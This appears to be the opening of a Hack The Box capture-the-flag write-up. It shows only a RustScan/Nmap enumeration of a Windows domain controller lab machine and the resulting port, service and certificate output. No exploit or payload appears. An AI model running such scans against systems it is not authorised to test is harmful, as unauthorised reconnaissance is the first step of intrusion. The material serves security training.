# Intro

Here we are again, another challenge from the Season 8 at HTB. This time we are in front of a machine categorized as "Hard" based on a Windows os.



The platform did not provide us any initial credentials, which might be a synonym of several steps in the attack chain but a Website as well as the foothold?

In any case judging by the machine name I might expect a ADCS? But I could be wrong; only time will tell... Without further do I will start with the challenge.

# Initial Enumeration

As usual I will use Rustscan to identify the running services, their versions and so on.

```
└─# rustscan -a 10.10.11.71 -- -A -T4                                        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.71:53
Open 10.10.11.71:80
Open 10.10.11.71:88
Open 10.10.11.71:139
Open 10.10.11.71:135
Open 10.10.11.71:389
Open 10.10.11.71:445
Open 10.10.11.71:464
Open 10.10.11.71:593
Open 10.10.11.71:636
Open 10.10.11.71:3268
Open 10.10.11.71:3269
Open 10.10.11.71:5985
Open 10.10.11.71:9389
Open 10.10.11.71:49666
Open 10.10.11.71:49691
Open 10.10.11.71:49692
Open 10.10.11.71:49694
Open 10.10.11.71:49712
Open 10.10.11.71:49718
Open 10.10.11.71:49739
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -A -T4" on ip 10.10.11.71
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-06 18:39 CEST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:39
Completed NSE at 18:39, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:39
Completed NSE at 18:39, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:39
Completed NSE at 18:39, 0.00s elapsed
Initiating Ping Scan at 18:39
Scanning 10.10.11.71 [4 ports]
Completed Ping Scan at 18:39, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:39
Completed Parallel DNS resolution of 1 host. at 18:39, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 18:39
Scanning 10.10.11.71 [21 ports]
Discovered open port 80/tcp on 10.10.11.71
Discovered open port 445/tcp on 10.10.11.71
Discovered open port 53/tcp on 10.10.11.71
Discovered open port 49712/tcp on 10.10.11.71
Discovered open port 389/tcp on 10.10.11.71
Discovered open port 49739/tcp on 10.10.11.71
Discovered open port 139/tcp on 10.10.11.71
Discovered open port 464/tcp on 10.10.11.71
Discovered open port 135/tcp on 10.10.11.71
Discovered open port 49691/tcp on 10.10.11.71
Discovered open port 3268/tcp on 10.10.11.71
Discovered open port 5985/tcp on 10.10.11.71
Discovered open port 49694/tcp on 10.10.11.71
Discovered open port 3269/tcp on 10.10.11.71
Discovered open port 636/tcp on 10.10.11.71
Discovered open port 49692/tcp on 10.10.11.71
Discovered open port 49666/tcp on 10.10.11.71
Discovered open port 49718/tcp on 10.10.11.71
Discovered open port 9389/tcp on 10.10.11.71
Discovered open port 593/tcp on 10.10.11.71
Discovered open port 88/tcp on 10.10.11.71
Completed SYN Stealth Scan at 18:39, 0.08s elapsed (21 total ports)
Initiating Service scan at 18:39
Scanning 21 services on 10.10.11.71
Completed Service scan at 18:40, 54.05s elapsed (21 services on 1 host)
Initiating OS detection (try #1) against 10.10.11.71
Retrying OS detection (try #2) against 10.10.11.71
Initiating Traceroute at 18:40
Completed Traceroute at 18:40, 0.05s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 18:40
Completed Parallel DNS resolution of 2 hosts. at 18:40, 0.03s elapsed
DNS resolution of 2 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.11.71.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:40
NSE Timing: About 99.97% done; ETC: 18:40 (0:00:00 remaining)
Completed NSE at 18:40, 40.05s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:40
Completed NSE at 18:40, 0.45s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:40
Completed NSE at 18:40, 0.00s elapsed
Nmap scan report for 10.10.11.71
Host is up, received echo-reply ttl 127 (0.028s latency).
Scanned at 2025-06-06 18:39:12 CEST for 99s

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://certificate.htb/
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-07 00:39:20Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-06-07T00:40:53+00:00; +8h00m02s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T00:40:53+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T00:40:53+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:   0252:f5f4:2869:d957:e8fa:5c19:dfc5:d8ba
| SHA-1: 779a:97b1:d8e4:92b5:bafe:bc02:3388:45ff:dff7:6ad2
| -----BEGIN CERTIFICATE-----
| MIIGTDCCBTSgAwIBAgITWAAAAALKcOpOQvIYpgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBPMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLY2VydGlm
| aWNhdGUxGzAZBgNVBAMTEkNlcnRpZmljYXRlLUxURC1DQTAeFw0yNDExMDQwMzE0
| NTRaFw0yNTExMDQwMzE0NTRaMB8xHTAbBgNVBAMTFERDMDEuY2VydGlmaWNhdGUu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAokh23/3HZrU3FA6t
| JQFbvrM0+ee701Q0/0M4ZQ3r1THuGXvtHnqHFBjJSY/p0SQ0j/jeCAiSwlnG/Wf6
| 6px9rUwjG7gfzH6WqoAMOlpf+HMJ+ypwH59+tktARf17OrrnMHMYXwwILUZfJjH1
| 73VnWwxodz32ZKklgqeHLASWke63yp7QM31vnZBnolofe6gV3pf6ZEJ58sNY+X9A
| t+cFnBtJcQ7TbxhB7zJHICHHn2qFRxL7u6GPPMeC0KdL8zDskn34UZpK6gyV+bNM
| G78cW3QFP00i+ixHkPUxGZho8b708FfRbEKuxSzL4auGuAhsE+ElWna1fBiuhmCY
| DNnA7QIDAQABo4IDTzCCA0swLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQURw6wHadBRcMGfsqMbHNqwpNKRi4wHwYDVR0jBBgwFoAUOuH3UW3vrUoY
| d0Gju7uF5m6Uc6IwgdEGA1UdHwSByTCBxjCBw6CBwKCBvYaBumxkYXA6Ly8vQ049
| Q2VydGlmaWNhdGUtTFRELUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtl
| eSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2Vy
| dGlmaWNhdGUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9v
| YmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCByAYIKwYBBQUHAQEEgbsw
| gbgwgbUGCCsGAQUFBzAChoGobGRhcDovLy9DTj1DZXJ0aWZpY2F0ZS1MVEQtQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWNhdGUsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1Ud
| EQQ5MDegHwYJKwYBBAGCNxkBoBIEEAdHN3ziVeJEnb0gcZhtQbWCFERDMDEuY2Vy
| dGlmaWNhdGUuaHRiME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1T
| LTEtNS0yMS01MTU1Mzc2NjktNDIyMzY4NzE5Ni0zMjQ5NjkwNTgzLTEwMDAwDQYJ
| KoZIhvcNAQELBQADggEBAIEvfy33XN4pVXmVNJW7yOdOTdnpbum084aK28U/AewI
| UUN3ZXQsW0ZnGDJc0R1b1HPcxKdOQ/WLS/FfTdu2YKmDx6QAEjmflpoifXvNIlMz
| qVMbT3PvidWtrTcmZkI9zLhbsneGFAAHkfeGeVpgDl4OylhEPC1Du2LXj1mZ6CPO
| UsAhYCGB6L/GNOqpV3ltRu9XOeMMZd9daXHDQatNud9gGiThPOUxFnA2zAIem/9/
| UJTMmj8IP/oyAEwuuiT18WbLjEZG+ALBoJwBjcXY6x2eKFCUvmdqVj1LvH9X+H3q
| S6T5Az4LLg9d2oa4YTDC7RqiubjJbZyF2C3jLIWQmA8=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-06-07T00:40:53+00:00; +8h00m02s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49712/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49739/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=6/6%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=68431A13%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=106%TI=I%II=I%SS=S%TS=U)
SEQ(SP=105%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=U)
OPS(O1=M577NW8NNS%O2=M577NW8NNS%O3=M577NW8%O4=M577NW8NNS%O5=M577NW8NNS%O6=M577NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M577NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
